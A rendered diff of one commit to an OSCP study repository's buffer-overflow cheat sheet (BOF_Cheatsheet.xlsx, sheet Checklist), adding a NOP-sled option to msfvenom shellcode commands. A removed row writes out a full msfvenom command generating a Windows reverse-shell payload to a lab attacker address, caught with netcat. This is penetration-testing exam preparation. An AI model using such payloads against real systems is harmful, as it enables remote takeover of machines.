

Before and after one commit to ashwinragul89/OSCP, an Excel workbook: BOF_Cheatsheet.xlsx, sheet Checklist, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload
Updated check list

```diff
--- a/BOF_Cheatsheet.xlsx (sheet Checklist)
+++ b/BOF_Cheatsheet.xlsx (sheet Checklist)
-C32 (x86 based - Simple BOF): …-v shellcode AppendExit=true
+C32 (x86 based - Simple BOF): …-v shellcode -n 48 AppendExit=true
-D32: X86, X64 -> Stagged Paylaod
+D32: X86, X64 Included with nops
-row 33:  |  | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.150.128 LPORT=8443 -b "\x00" -f py -v shellcode AppendExit=true | X86, X64 -> Non-Stagged Paylaod, caught via NC
-C33 (x86 based - Simple BOF): …-v shellcode
+C33 (x86 based - Simple BOF): …-v shellcode -n 48
-D33: X86, X64
+D33: X86, X64 Included with nops
```
Also changed, not shown: OSCP - checklist_v0.1.xlsm.
